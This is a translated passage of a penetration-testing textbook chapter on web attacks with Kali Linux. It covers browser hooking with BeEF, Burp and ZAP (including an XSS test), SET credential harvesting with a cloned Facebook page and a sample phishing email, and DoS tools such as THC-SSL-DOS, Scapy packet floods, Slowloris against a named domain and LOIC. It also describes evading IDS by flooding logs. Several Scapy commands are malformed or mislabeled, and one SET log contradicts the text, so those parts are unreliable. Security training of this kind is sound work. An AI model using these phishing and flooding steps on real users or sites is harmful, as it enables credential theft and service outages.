上一个示例显示了一个挂钩的笔记本电脑。BeEF 可以显示详细信息，例如受害者是否在使用 Firefox、特定的浏览器插件、脚本、是否启用了 Java 以及其他有用信息。攻击者可以在挂钩的机器上执行命令，例如创建 shell、获取 cookies、截屏、记录击键，甚至将挂钩的浏览器作为代理。另一个示例是让挂钩登录 Facebook 并使用 BeEF 捕获会话。攻击者可以响应已验证的会话并完全访问受害者的账户。可能性是的：

| 详情 | 日志 | 命令 |
| :--- | :--- | :--- |
| 类型 | 事件 | |
| 事件 | 003s - 浏览器重新获得焦点 | |
| 事件 | 769s - 浏览器失去焦点 | |
| 僵尸 | 127.0.0.1:3000 加入域名 | |

防御基于浏览器的工具是困难的。最好的防御是确保浏览器更新到最新的安全补丁。此外，下一代入侵防御系统（NGIPS）可以提供额外的安全保障。大多数工具的受害者是点击电子邮件或社交媒体共享恶意链接的用户。

### FoxyProxy – Firefox 插件

如果你计划使用 Zed Attack Proxy (ZAP) 或 BURP 等代理，你可能希望使用 Firefox 插件 FoxyProxy 来简化。FoxyProxy 是一个 Firefox 扩展，可以让你轻松管理、更改或禁用代理设置。安装 FoxyProxy 后，Firefox 顶部会出现一个图标。点击它可以打开 FoxyProxy：

要在 FoxyProxy 中添加代理：

1. 点击 **Add New Proxy** 按钮，弹出新窗口。
2. 选择 **Manual Proxy Configuration**。
3. 输入代理服务器的 IP 或主机地址以及端口号。
4. 点击 **OK** 保存新代理。

此时，FoxyProxy 允许在无代理的情况下进行传输，如标签页上的 **Completely disable FoxyProxy** 显示。要使用代理，点击标签页将其更改为所需的代理：

### BURP Proxy

BurP Proxy 是一个拦截 HTTP 和 HTTPS 流量的工具。它允许渗透人员检查应用程序、漏洞以及客户端与 Web 服务器之间的双向流量。BurP Proxy 非常流行，因为它不仅可以检查流量，还可以操纵请求。我们将研究如何使用 BurP Proxy 操控、响应和窃取身份。

需要记住，BurP Proxy 实际上是 Burp Suite 的一部分，后者是一个工具集。当用户在网络浏览器中输入如 http://www.dattack.com 的 URL 时，他们期望重定向到该网站。代理服务器会拦截该请求并代表客户端发送。代理服务器通常用于检查流量并保护客户端免受有害数据。作为渗透人员，你可以使用代理服务器拦截客户端流量、复制请求或操纵它：

要启动 Burp Suite，只需导航到：Kali | Sniffing/Spoofing | Web Sniffers 并选择 Burp Suite。


### 启动 Burp Suite 后，你将看到 Burp 启动面板：


要配置 Burp，点击 Proxy（代理）选项卡。默认情况下，该选项卡选中了 Intercept（拦截）选项。当启用 Intercept 选项时，Burp 会停止所有从浏览器到 Web 服务器的请求。此功能允许渗透测试人员在查看请求后，手动允许连接继续。

> Intercept 按钮需要手动干预，否则请求将永远到达 Web 服务器。

下一个配置设置可以在 Options（选项）子菜单中找到。此部分允许用户在 Burp 运行时检查或更改默认端口。默认情况下，Burp 设置为在回环接口（loopback interface）上运行，如后续截图所示。回环接口是一种特殊的接口，关联了 IP 地址 127.0.0.1。它没有绑定到物理硬件连接，而是操作系统引用自身的一种方式。换句话说，当你想在网络中与自己进行通信时，可以使用回环接口。如果你计划在本地机器之外测试 Burp Suite，你应该添加你的以太网接口和 IP 地址。

## Web 攻击

我们将在示例中使用回环接口：


下一步是配置浏览器使用 Burp Suite。所有浏览器使用代理服务器的方法都相似。在下一个示例中，我们描述了 Firefox 中配置代理服务器的设置：


对于接下来的示例，我们将在 Firefox 中访问一个 URL，例如 DrChaos.com。你会发现什么都没有发生。这是因为正如我们之前讨论的，Intercept 功能默认是启用的。你现在可以看到 Burp 中的 Intercept 标签颜色发生了变化，表示拦截了一个新请求。

## 第 6 章

当你点击 **Intercept** 时，你将看到请求的性质。你现在可以点击 **Forward**（前进）或 **Drop**（丢）来允许或拒绝特定请求继续：


当你点击 **Forward** 按钮时，你会看到请求继续发送服务器，以及来自服务器的响应。此外，你将看到网页在浏览器中成功加载。某些网页有多个组件，因此在网页加载之前你可能需要多次点击 **Forward** 按钮。

另一个酷的功能是 **Burp Spider**（爬虫）。**Burp Spider** 提供了一种自动化映射 Web 应用程序的方法。**Burp Spider** 的工作原理是：首先像我们之前解释的那样设置 Burp 代理你的互联网上网。接下来，启用 **Burp Spider**，在它运行时，Burp 将映射所有请求，并提供对任何捕到的请求进行爬虫以寻找新目标的能力。

要使用 **Spider**，点击 **Spider** 标签打开默认配置页面。点击 **Spider is paused**（蜘蛛已暂停）将状态改为 **Spider is running**（蜘蛛正在运行）：


## Web 攻击

Burp 将你所有的请求都映射在 Target（目标）下。点击 Target 标签页查看已捕获的内容。将列出代理正在使用的目标列表。灰色的 URL 是你没有直接浏览过的目标，而黑色的 URL 是你显式浏览过的站点：

| Host | Method | URL | Params | Status | Length | MIME type | Title |
|---|---|---|---|---|---|---|---|
| https://google.com | GET | /http-drchaos-...... | | 200 | 70940 | HTML | Dr.Chaos |
| https://delicious.com | GET | /http-drchaos-...... | | 200 | 4371 | HTML | About Me |
| https://facebook.com | GET | /http-drchaos-...... | | 242 | | | |
| https://edge.com | GET | /http-drchaos-...... | | 1040 | script | | |
| https://epgp.com | GET | /http-drchaos-...... | | 137 | | | |
| https://quantquare.com | GET | /http-drchaos-...... | | 137 | | | |
| https://featurebox.com | GET | /http-drchaos-...... | | 137 | | | |
| https://reddit.com | GET | /http-drchaos-...... | | 137 | | | |
| https://friended.com | GET | /http-drchaos-...... | | 137 | | | |
| https://instagram.com | GET | /http-drchaos-...... | | 137 | | | |
| https://mysify.com | GET | /http-drchaos-...... | | 137 | | | |
| https://mycode.com | GET | /http-drchaos-...... | | 137 | | | |
| https://platform.com | GET | /http-drchaos-...... | | 137 | | | |
| https://twitter.com | GET | /http-drchaos-...... | | 137 | | | |
| https://is77hosts.com | GET | /http-drchaos-...... | | 137 | | | |
| https://www.gravastar.com | GET | /http-drchaos-...... | | 137 | | | |
| https://www.hoisner.com | GET | /http-drchaos-...... | | 137 | | | |
| https://www.wordpress.com | GET | /http-drchaos-...... | | 137 | | | |
| https://www.stubcoupon.com | GET | /http-drchaos-...... | | 137 | | | |
| https://www.facebook.com | GET | /http-drchaos-...... | | 137 | | | |
| https://www.w3.org | GET | /http-drchaos-...... | | 137 | | | |
要使用 **Spider**，右键点击一个目标主机：


## 第 6 章

当你进入 Burp 中的 Spider 标签页时，你会注意到 Spider 状态从 **0** 开始累加：


如果 Burp 遇到任何表单，它会提示你填写表单或忽略它们。如果你填写表单，Burp 将继续查看它可以爬过表单的内容：


## Web 攻击

当 Spider 进程完成后，返回 Targets 标签找到你最初选择的主机。点击主机上的三角形将其展开。你将看到原始目标下的所有结果：

- http://www.cloudcentrics.com
- http://www.drchaos.com/
- 4-reasons-not-to-use-mod_security
- 802-1lx-as-a-government-standard
- 802-1lx-challenges-for-the-department-of-
- aamir-lakhani-talks-about
- about-me
- about-us
- already-in-the-cloud-is-it-too-secur
- author
- asa-scripted-install
- basic-man-in-the-middle-attack-demo
- beef
- breach-identified-next-steps
- breaking-wpa2-ps-with-kali
- byo-destruction
- byod-opens-doors-for-employee
- category
- cisco-content-security-ironport
- cisco-cyber-solutions
- cisco-ise-1-0-4-overview
- continuousmonitoring
- creating-custom-signing-request
- data-backup-in-2013-tips-for-smb-cloud-s
- defending-against-google-hacking-know-wh
- disaster-at-hand-what-does-it-mean
- dissecting-the-meraki-cloud
- ditch-the-moving-parts
- ensuring-your-emails-dont-lead-a-major
- everyone-is-going-mobile
- feed
- foca_intro
- goin-mobile-your-site-faster-for-m
- great-reasons-to-adopt-erp-solutions-on-t
- hacking99-magazine-nmap-guide
- how-to-crack-passwords
- how-to-educate-your-employees-about-soc
- how-to-hack-and-elevator
- implementing-scap-for-the-enterprise-and-
- installing-vmware-tools-on-kali-linux
- introduction-to-cloud-marketing
- iphone_ms_dump_demo

Burp 显示 Spider 进程捕获的所有页面和链接。此外，它还会捕捉根目录、网页样式、子文件夹和 Java 脚本。下一个示例显示了 www.Drchaos.com 上多个捕获的子文件夹。

## 第 6 章

Burp 可以页面顶部的灰色 Filter 过滤项目。当你点击 **Filter** 按钮时，它将展开过滤结果所需的选项：


Burp 中的 Spider 允许 Web 渗透人员查看 Web 应用程序或网站是如何配置的、包含哪些链接以及这些链接指向何处。这个概念的类比是在一个有很多门的房间里，并且同时探索每扇门的能力。

## OWASP - ZAP

ZAP 是一种易于使用的集成渗透工具，用于发现 Web 应用程序中的漏洞。我们简要概述了如何使用 **ZAP** 扫描目标可能的漏洞。让我们重新回顾 ZAP 如何识别和利用跨站脚本（通常称为 XSS）。

ZAP 内置于 Kali Linux 1.0 中，可以在 **Sniffing/Spoofing/ Web Sniffers** - **ZAP** 下找到它，或者简单地打开终端窗口并输入 ZAP，如下：


## Web 攻击

以下是第3章中关于如何在 Firefox 中配置 ZAP 的总结：

1. 接受用户协议。
2. 生成 SSL 证书或导入现有证书。
3. 通过“首选项 (Preferences) | 高级 (Advanced)”并选择“加密 (Encryption)”子标签，将证书导入 Firefox 等 浏览器。
4. 点击“查看证书 (View Certificates)”并导入证书。
5. 勾选使用新证书的所有信任选项。
6. 设置您的 浏览器使用 ZAP 作为默认代理。在 Firefox 中，可以在“首选项 | 高级 | 网络 (Network)”下找到。
7. 输入代理服务器 localhost 和端口号 8080（这是 ZAP 代理的默认端口）。
8. 勾选“所有协议使用代理服务器”。


配置好 ZAP 和 Firefox 后，在 Firefox 中加载任何 URL。你会发现网站现在出现在 ZAP 的“站点 (Sites)”选项卡下。在示例中，我们访问了 www.DrChaos.com，并注意到由于 www.DrChaos.com 首页上的所有链接，加载了许多站点：

| 站点 (Sites) |
| :--- |
| http://s.gravatar.com |
| http://s0.wp.com |
| http://s7.addthis.com |
| http://segment-pixel.internetmedia.c |
| http://stats.wordpress.com |
| http://tacoda.at.atwola.com |
| http://themes.googleusercontent.c |
| http://tracking.hostgator.com |
| http://www.drchaos.com |
| http://www.facebook.com |
| https://apis.google.com |
| https://platform.twitter.com |

ZAP 运行主动或被动扫描的选项。被动扫描不执行攻击，在任何 Web 应用程序上运行都是安全的。主动扫描会运行许多攻击并针对 Web 应用程序运行代码，这可能会触发某些安全防御产品的警报。

# 第 6 章

以下示例将使用主动和被动扫描。最好有一个你正在测试的 Web 服务器，而不是尝试测试 ZAP 服务器。因为我们想在授权测试的有漏洞 Web 服务器上进行练习，我们将回到使用 Google Gruyere 项目。

Google 创建 Gruyere 项目是作为测试应用程序漏洞和防御的手段。Gruyere 项目网站嵌入了多个漏洞，包括 XSS。你可以在可以在上运行你自己的 Gruyere 项目，也可以将其下载到本地机器进行测试：


创建你自己的 Gruyere 实例来测试 ZAP。你将获得一个唯一的 URL。我们获得的 URL 是 http://google-gruyere.appspot.com/326352883334/。

我们将回到 ZAP 对此 URL 进行快速扫描：


## Web 攻击

截图示例显示了一组 SEED 文件，其中一个的标签很有意思：http://google-gruyere.appspot.com/326352883334/invalid。

当我们将此放入浏览器时，会得到以下错误消息：


在涉及 XSS，URL 中最危险的字符是 < 和 >。如果黑客能够让应用程序直接使用 < 和 > 在页面中插入他们想要的内容，就会为注入恶意脚本打开大门。这里是其他一些 SEED 文件：


这是一个通过注入脚本来利用这些 SEED 链接之一的示例。我们将创建一个 URL 并添加 alert (1) 脚本，看看网站是否会创建一个弹出错误：

```
http://google-gruyere.appspot.com/326352883334/
<script>alert(1);</script>
</script>
```


示例显示我们的目标 Web 应用程序服务器弹出了窗口，证明该网站容易受到攻击。我们可以使用 ZAP 重放攻击、尝试其他攻击，或测试类似的 XSS 方法。

我们建议尝试你发现的错误，看看你是否可以操纵它们为你的渗透测试练习生成敏感输出。Gruyere 项目是测试使用 ZAP 等工具发现其他漏洞技能的绝佳方法。

为了防御远程攻击，ZAP 对于测试 XSS 攻击等 Web 漏洞非常有效。一些人认为，如果浏览器声称其具有 XSS 防御，用户在浏览网站时就不需要担心 XSS。该概念背后的事实是，浏览器保护可能是完美的，因为浏览器并不知道 Web 应用程序后的代码有多安全。聪明的黑客可能会绕过保护，例如利用 XSS 漏洞并针对访问网站的主机发布脚本。保护你的服务器和访问应用程序的客户端的最佳实践是使用像 ZAP 工具识别并修复漏洞。

### SET 密码收割

我们在第 4 章中检查了社会工程工具包 (SET) 的基础。我们将回顾 SET 并查看密码收集和获取特权信息的高级概念。

作为复习，我们将通过进入 Exploitation Tools (利用工具) | Social Engineering Tools (社会工程工具) | se-toolkit 来启动 SET。

第一次使用，请确保 SET 已更新。更新 SET 以及验证 GIT 是否安装的步骤可以在第 4 章找到。

> 当 SET 克隆一个网站时，它会运行一个 Web 服务器。目标对象能够连接到你的 Web 服务器非常重要。这意味着任何基于 Internet 的攻击都需要利用 IP 地址（通过 NAT 或直接在 Kali Linux 上），并开放防火墙规则以允许从远程访问 Kali。

一旦你处理了任何 IP 配置，就可以启动 SET 了：

```
root@kali:/usr/share# cp backup.set/config/set_config/set/config
root@kali:/usr/share# se-toolkit

重要通知！由于 Kali 的目录结构，社会工程工具包进行了一些重大更改。

所有 SET 动态信息现在将保存在 ~/.set 中，而不是 src/project_Jun。

[!] 请注意以后你应该使用 se-toolkit。
[!] 通过 'se-toolkit' 启动即将失效...
[!] 如果不在 Kali 上，运行 python setup.py install 然后你可以在任何地方使用 se-toolkit。

按 (return) 键继续 SET。
```

我们将使用 SET 来收割密码。SET 有能力克隆你想要的网站。在示例中，我们实际上选择了流行的网站之一进行克隆。

# 第 6 章

```
root@kali:~ ~
File Edit Search Terminal
此软件，即使已告知可能导致损坏
```

上述许可协议取自 BSD 许可，也适用于社会工程工具包。

你可以对其进行修改、使用、更改、市场营销等等任何操作，只要你给予作者应有的荣誉。此外，通过使用此软件，如果你在酒吧里看到 SET，你应该拥抱他并请他喝瓶啤酒。必须持续至少 5 秒。然而但他保留拒绝拥抱的权利。

社会工程工具包并不邪恶。如果你将其用于任何你所评估的公司未授权的操作，你即违反了该工具集的服务条款和许可。通过点击（仅限一次），你同意服务条款，并承诺仅出于合法目的使用此工具。

你同意服务条款吗 [y/n]:


## Web 攻击

对于我们的示例，我们将选择 Web 模板。SET 将询问它应该在哪个 IP 地址上监听。这将是 Kali Linux 上接口的 IP 地址。例外情况是在防火墙上使用 NAT。在这种情况下，你需要使用 NAT 或公网地址，而不是 Kali Linux 上的 IP 地址，以便目标能够访问该系统。接下来的示例将使用本地回环地址 127.0.0.1。

接下来，SET 将要求选择一个模板。对于此示例，我们将选择 Facebook。

接下来的示例显示 Web 浏览器访问 127.0.0.1 并显示一个虚假的 Facebook 页面。如果模板页面看起来不恰对，你可能想要使用不同的模板或清除默认模板。


我们注意到地址栏显示为 127.0.0.1。通常情况下，你需要使用其他攻击向量来欺骗用户访问你的网站。有许多方法可以实现这一点，例如发送链接或虚假页面：

> Facebook <wwt.secmob@gmail.com>
致: A Lakhani <Aamir.Lakhani@wwt.com>
Facebook
2013年5月29日 下午5:49
已发送邮件 1

亲爱的 Facebook：
为了确保您的在线体验更安全、更愉快，Facebook 将实施一套新的登录系统，该系统将影响所有 Facebook 用户。这些更改将提供新功能并提高账户安全性。
在在使用新的登录系统之前，您被要求更新您的账户。
请点击下方链接现在在线更新您的账户
www.facebook.com
如果您有任何问题，请参考《新用户指南》。

谢谢，
Facebook 团队
Facebook 永远不会在电子邮件或 Facebook 信息中向您索要密码。了解更多关于保持账户安全的信息。

## 第6 章

当我们在虚假的 Facebook 中输入用户名时，SET 会捕获流量。SET 还会将用户重定向到真实网站。希望受害者认为他们在被重定向到真实 Facebook 时输入了密码，并继续使用 Facebook，而不知道 SET 捕获了他们的登录凭据：

```
root@kali:~ -
File Edit View Search Terminal Help
[*] Cloning the website: http://www.facebook.com
[*] This could take a little bit...

使用这种攻击的最好方法是如果你的用户名和密码字段可用。无论如何，这都会捕获网站上所有的 POST 请求。
[*] Social-Engineer Attack
[*] Credential Harvester is running on port 80
[*] 信息将在到达时向您显示：
127.0.0.1 - [11/Jun/2013 22:18:29] SET / HTTP/1.1 280 -
127.0.0.1 - [11/Jun/2013 22:18:29] SET / HTTP/1.1 280 -
[*] WE GOT A HIT! Printing the output:
PARAM: charset_text='', *,\de, *,\de
PARAM: location=facebook.com
POSSIBLE USERNAME FIELD FOUND: non-login.com
POSSIBLE PASSWORD FIELD FOUND: kali
POSSIBLE PASSWORD FIELD FOUND: kali-linux-LINUX
PARAM: charset_text='', *,\de, *,\de
*) WHEN YOU'RE FINISHED, CONTROL-C TO GENERATE A REPORT.
```

上一个示例显示 SET 捕获了我们的用户名：DrChaos，以及我们的密码 ILoveKali。

当你完成此项练习后，请按 Ctrl+C 退出 SET 工具并生成一个 HTML 报告。SET 会创建一个可以用于你的渗透测试报告的专业报告：


## Web 攻击

### Fimap


Fimap 是一个 Python 工具，可以针对 Web 应用程序发现、准备、审计、利用并自动搜索本地和远程文件包含（LFI 和 RFI）漏洞。

可以在 Web Applications | Web Vulnerability Scanners | Fimap 下找到 Fimap。当你打开 Fimap 时，会打开一个终端窗口。Fimap 有几个插件选项，你可以通过以下命令下载它们：

```
fimap --install-plugins
```

所有可用的插件将以列表形式显示，你可以选择其中一个或退出。在以下示例中，有两个可用插件可以安装。你必须运行安装命令单独安装每个插件：

```
root@kali:~# fimap --install-plugins
fimap v.09 (For the Swarm)
:: Automatic LFI/RFI scanner and exploiter
:: By Iman Karim (fimap.dev@gmail.com)
Requesting list of plugins...
######################################
#LIST OF TRUSTED PLUGINS
######################################
#[1] Weevils injector by Darren "Infmbox" Martyn <infodex@security.net> - Version 2 not installed.
#[2] Do HTTP reverse shell by Darren "Infmbox" Martyn <infodex@security.net> - At version 1 not installed.
#[q] Cancel and Quit.
######################################
Choose a plugin to install:
```

要使用 Fimap，你首先需要确定目标。

## 第6 章

### 拒绝服务 (DoS)

拒绝服务（DoS）攻击的目标是使机器或网络资源对预期用户不可用。这通过通过流量淹没目标或利用导致服务崩溃的漏洞来实现。

Kali Linux 包含了在前章节中涵盖的多个漏洞利用工具，可以用于应用层 DoS 攻击，例如 Metasploit。此外，第 3 章涵盖了流行的协议 DoS 工具 Scapy。以下是 Kali Linux 中其他可执行 DoS 攻击的工具：

- 流量攻击（Volume Attacks）：涉及 UDP 洪水、ICMP 洪水以及其他基于伪造数据包的洪水。其目的是饱和受害者的带宽。
- 协议攻击（Protocol Attacks）：消耗服务器或中间设备（如路由器、防火墙、负载均衡器）的资源。例如 SYN 洪水、死亡之 Ping、Smurf攻击、Teardrop。
- 应用层攻击（Application Layer Attacks）：利用合法流量使 Web 服务崩溃。它包括零日攻击、漏洞利用等。
- 会话耗尽（Session Exhaustion）：通过反复建立但不关闭会话来滥用会话限制，旨在消耗资源。DoS 与分布式拒绝服务（DDoS）的区别在于，DoS 攻击涉及一台机器，而 DDoS 攻击涉及许多机器。

## Web 攻击

### THC-SSL-DOS

安全套层（SSL）协议用于加密互联网上的连接和交易。建立一个安全的 SSL 连接时，服务器所需的处理能力是客户端的 15 倍。THC-SSL-DOS 通过过载服务器使其无法为合法用户提供任何服务，从而利用了这种不对对称性。该攻击利用 SSL 安全重协商功能，通过单个 TCP 连接触发成千上万次重协商。这被称为 SSL 资源耗尽攻击。这种方法的优势在于客户端端 SSL 握手的处理能力远高于服务器，这意味着一台通过普通网络连接的普通电脑就可以挑战 Web 应用程序服务器。这是一个已知的漏洞，在本文编写时，尚无真正的解决方案可以修复它。


## 第 6 章

要访问 THC-SSL-DOS，请导航至 Stress Testing | Web Stress Testing | thc-ssdos。这将打开一个带有 THC-SSL-DOS 主页的终端窗口。要对目标运行 THC-SSL-DOS，请输入：

`thc-ssl-dos [options] <ip of the victim> <port> and --accept`

你必须包含 `--accept`，否则将收到以下错误消息：
ERROR: 请通过使用 '--accept' 选项同意该 IP 是合法目标，并且你已完全授权对该目标执行测试。
root@kali:~

一旦执行了 THC-SSL-DOS，你将看到一些有趣的文字，说明它正在启动以及正在利用握手过程。在截图中，我们将展示一个没有利用 SSL 的网站；因此显示了连接错误。第二张截图显示了成功的握手，这最终会导致目标瘫痪。请记住，你应该只对你拥有测试权限的 IP 和网站尝试这样做。这些攻击可能会严重损害网站或网络应用程序：


等待脚本小子们来生气...
原力与读源码的人同在
Handshakes 0 [0.00 h/s], 1 Conn, 0 Err
Handshakes 0 [0.00 h/s], 3 Conn, 0 Err
SSL: error:14070ffc:SSL routine:ss23:GET_SERVER:unknown protocol
#10: 这看起来不像 SSL!


## Web攻击

## Scapy

最流行的 DoS 工具之一是 Scapy。Scapy 是一个由 Philippe Biondi 用 Python 编写计算机网络包处理工具。Scapy 可以伪造或解码数据包、将其发送到网络、捕获它们并匹配请求和响应。此外，它还可以处理扫描、路由追踪、探测、单元测试、攻击和网络发现等任务。

一个常用的技巧是从 Kali 操纵 TCP 包并通过 Scapy 发送。要启动 Scapy，在终端中输入 `scapy`。一旦 Scapy 启动，输入命令语法：

```bash
root@kali:~# scapy
INFO: Can't import python pyplot wrapper . Won't be able to plot.
WARNING: No route found for IPv6 destination :: (no default route?)
Welcome to Scapy (2.2.8)
>>
```

在接下来的图中，我们将使用 Scapy 向我们的测试服务器发送畸构造的 TCP 包。在这种情况下，我们的测试服务器是 10.0.0.1。这可能是一个路由器或 Web 服务器。此外，我们还将指定要发送到目标地的数据包数量。在这种情况下，我们使用以下命令发送 2000 个包：

`send(IP(dst="10.0.0.1",ttl=0)/TCP(iface="eth0",count=2000))`

在上一行代码中，我们正从 Kali 服务器的 eth0 接口向目标地址 10.0.0.1 发送 2000 个包。此外，我们将目标的 TTL 存值设置为 0。从 TCP 的角度来看，这几乎是不可能的。本质上，我们正试图通过一个错误的 TTL 值来混淆 Web 服务器。需要注意的是，在适当的情况下，系统可能会因为单个错误或畸形的数据包而损坏。我们可以根据攻击需要调整计数计数器或其他参数：

```bash
root@kali:~# scapy
INFO: Can't import python pyplot wrapper . Won't be able to plot.
WARNING: No route found for IPv6 destination :: (no default route?)
Welcome to Scapy (2.2.0)
>>> send(IP(dst="10.0.0.1",ttl=0)/TCP(iface="eth0",count=2000))
```

以下是 Scapy 显示的其他攻击场景：

### 错误的 IP 版本
`send(IP(dst="10.0.0.1", src="10.20.30.40", version=0))/TCP(dport="www", iface="eth0", count=2000)`

### 错误的 TCP 校验和
`send(IP(dst="10.0.0.1")/TCP(checksum=0x5555),iface="eth0",count=2000)`

### 错误的 TCP 标志（全部清除且 SEQ# == 0）
`send(IP(dst="10.0.0.1")/TCP(flags="",seq=555),iface="eth0",count=2000)`

### 错误的 TCP 标志（所有标志设置）
`send(IP(dst="10.0.0.1")/TCP(flags=0xff),iface="eth0",count=2000)`

### 仅设置 FIN
`send(IP(dst="10.0.0.1")/TCP(flags="F"),iface="eth0",count=2000)`

### 头部长度 > L2 长度
`send(IP(dst="10.0.0.1",src="10.20.30.40",ihl=15))/TCP(dport="www",iface="eth0",count=2000)`

### 头部长度太短
`send(IP(dst="10.0.0.1",src="10.20.30.40",ihl=1))/TCP(dport="www",iface="eth0",count=2000)`

### ICMP 洪水
`send(IP(dst="10.0.0.1")/TCP(flags="F"),iface="eth0",count=2000)`

### IP 校验和
`send(IP(dst="10.0.0.1")/TCP(checksum=0x5555),iface="eth0",count=2000)`

### IP 分片
`send(IP(dst="10.0.0.1")/TCP(flags=0xff),iface="eth0",count=2000)`

### SYN 洪水
`send(IP(dst="10.0.0.1")/TCP(flags="S"),iface="eth0",count=2000)`


## 第6 章

Slowlor 是一种低带宽的 HTTP 客户端，可以发起 DoS 攻击。Slowlor 的独特之处在于它不使用常见的泛洪技术来攻击目标。Slowlor 通过发送不完整的 HTTP 请求来保持连接开放。它以固定间隔继续发送数百个后续请求，以防止套字关闭。这种行为将耗尽目标的资源，使其无法响应合法流量。高流量网站可能需要很长时间才能释放可用套字；其他用户必须完成请求后，套字才能释放供 Slowlor 使用。尽管如此，Slowlor 最终会占满所有可用的套字，导致受害者网站的服务中断。

Slowlor 利用了使用线程处理的服务器，这意味着这些服务器容易受到线程数量限制的攻击。示例包括 Apache 1.x、2.x、dhtop、GoAhead 等。

Kali Linux 未预装 Slowlor。你可以从 http://slowloris.org/ 下载 Slowlor。

要运行 Slowloris，请下载 .pl 脚本并打开终端。进入脚本所在的文件夹并输入：

```bash
perl slowloris.pl
```

这将显示主界面。若要在目标上运行 Slowloris，请使用相同的命令后跟 -dns 和你的目标。例如，要攻击 www.thesecurityblogger.com，请输入：

```bash
perl slowloris.pl -dns thesecurityblogger.com
```

### 低轨道炮 (Low Orbit Cannon)

低轨道离子炮 (LOIC) 是一种网络压力测试工具，它设计用于测试目标能够承受多少流量以满足未来的预期。该软件启发了其他软件，如 JavaScript，允许用户直接从网页浏览器进行压力测试。该软件曾被匿名组织（Anonymous）著名用于对多个知名公共实体发起 DDoS 攻击。法律观点认为，使用 LOIC 违反了计算机安全与欺诈法。

要安装 LOIC，打开终端并输入：

```bash
apt-get update
apt-get install git-core
```

完成后，进入 ~/Desktop 目录并使用以下命令创建一个名为 loic 的文件夹：

```bash
mkdir loic
```

使用 `cd ~/loic` 进入该文件夹并输入以下命令：

```bash
wget https://raw.github.com/nicolargo/loicinstaller/master/loic.sh
```

接下来，使用以下命令赋予脚本文件权限：

```bash
chmod 777 loic.sh
```

最后一步是使用以下命令运行脚本：

```bash
./loic.sh install
```

如果运行脚本时没有收到任何错误信息，则你已准备好更新它。使用以下命令进行更新：

```bash
./loic.sh update
```

最后，是启动 LOIC 了。使用以下命令即可：

```bash
./loic.sh run
```

使用 LOIC 非常简单。你可以选择使用手动模式或 IRC 模式。在接下来的示例中我们将选择手动模式。

接下来，你可以选择想要泛洪的 URL 或 IP 地址。在接下来的示例中使用 IP 地址 127.0.0.1。如果你想修改 TCP 或 UDP 设置，LOIC 提供了攻击选项。

当你准备好发起攻击时，按下 IMMA CHARGIN MAH LAZER 按钮。LOIC 将显示攻击正在进行。点击 Stop Flooding 按钮停止攻击：

## 其他工具

Kali Linux 提供了许多对 Web 攻击有用的工具。以下是 Kali Linux 中其他未涵盖且可用于远程渗透测试的可用工具。

### DNSCHEF

DNSChef 是渗透测试人员和恶意软件分析师的 DNS 代理。DNS 代理也称为“伪 DNS”，是一种应用程序网络流量分析和其他用例的工具。域名系统（DNS）是用于计算机、服务或任何连接互联网或私有网络的分布式命名系统。提供伪 DNS 地址可以将流量重定向到其他目标位置。

## Web 攻击

例如，DNS 代理可以用于伪造对 badguy.com 的请求，将其指向本地机器进行终止或拦截，而不是指向互联网上某处的真实主机。要实现这一点，你需要获得访问并修改单台服务器上的 DNS 词目，或者投毒真实的 DNS 以便流量到达 Kali Linux 服务器。


## Siege

Siege 是一款 HTTP/HTTPS 测试工具，专为 Web 开发人员设计，用于衡量代码在压力下的性能。Siege 通过使用配置数量的并发模拟用户访问 Web 服务器，提供多线程 HTTP 负载测试和基准测试。Siege 提供了回归、互联网模拟和暴力破解模式。

你可以在 压力测试 | 网络压力测试 | Siege 下找到它：

```
SIEGE 2.70
Usage: siege [options]
sieve [options] URL
sieve -g URL

Options:
-V, --version 打印版本号。
-h, --help 打印此章节。
-C, --config 显示当前配置。
-v, --verbose 向屏幕打印通知。
-G, --get GET 请求，非常适合应用程序调试，可拉取 HTTP 请求头并显示事务。
-c, --concurrent=NUM 并发用户，默认为 10
-i, --internet 用户模拟，随机命中访问 URL。
-b, --benchmark BENCHMARK 基准测试：请求之间没有延迟。
-t, --time=NUM TIMED 定时：其中 "m" 是单位 S、M 或 H。
示例：--time=1H，持续一小时的测试。
-r, --reps=NUM REPS 运行测试的次数。
```

运行 Siege，请输入以下命令：

```
siege [options] <target URL>
```

下面的截图显示了针对 www.thesecurityblogger.com 运行 Siege。默认用户数量为 15，如截图所示。当停止 Siege 测试时，工具将提供如下的测试后报告：

```
root@kali:~# siege www.thesecurityblogger.com
** SIEGE 2.70
** 正在准备 15 个并发用户战斗。
服务器现在正受到围攻..
```


## Web Attacks

| 正在解除服务器攻击... | 完成 |
| :--- | :--- |
| 事务 (Transactions): | 171 次命中 |
| 可用性 (Availability): | 100.00 % |
| 耗时 (Elapsed time): | 93.22 秒 |
| 传输数据 (Data transferred): | 5.26 MB |
| 响应时间 (Response time): | 7.25 秒 |
| 事务率 (Transaction rate): | 1.83 trans/sec |
| 吞吐量 (Throughput): | 0.06 MB/sec |
| 并发 (Concurrency): | 13.30 |
| 成功事务 (Successful transactions): | 171 |
| 失败事务 (Failed transactions): | 0 |
| 最长事务 (Longest transaction): | 10.16 |
| 最短事务 (Shortest transaction): | 1.77 |

FILE: /var/log/siege.log
你可以通过编辑家目录下的 .siegerc 文件来禁用此消息；将'show-logfile' 指改为 false。

## Inundator

Inundator 是一种通过泛洪日志文件来规避入侵检测系统 (IDS) 和入侵防御系统 (IPS) 的工具。其理念是，你可能希望向目标发送大量的虚假报警，这样你就可以从响应和取证的角度隐藏真实的攻击。Inundator 还可以用于测试安全报告工具（如 SIEM 和 IDS/IPS）告警系统的有效性。

## TCPReplay

TCPReplay 使用之前捕获的 libpcap 格式流量来测试各种网络设备。TCPReplay 可以将流量分类为客户端或服务器，重写第 2、3、4 层标头，并将流量重放回网络，或通过其他设备（如交换机、路由器、防火墙和 IDS/IPS）。TCPRe 支持单、双网卡模式，用于测试嗅探设备和直连设备。

基本上，TCPReplay 可以捕获客户端和服务器之间的流量，并在网络中的任何地方重放。

## Summary

本章总结了对 Kali Linux 1.0 中提供的各种方法的回顾，这些方法可用于对 Web 应用服务器进行渗透测试。到此时，读者应该了解如何研究目标、识别目标中的漏洞，以及与主机和客户端的所有相关交互、利用漏洞，并在需要时中断服务。本文是对 Kali Linux 可用工具的简要概述；然而，Kali Linux 之外还有许多其他工具应该包含在原生工具集中；但是，优秀的渗透测试员会利用 Kali 之外的工具，例如基于自定义脚本和实用程序的零日类型攻击。我们建议针对本文涵盖的攻击方法研究并测试多种工具，以增加你作为专业渗透测试员的经验。

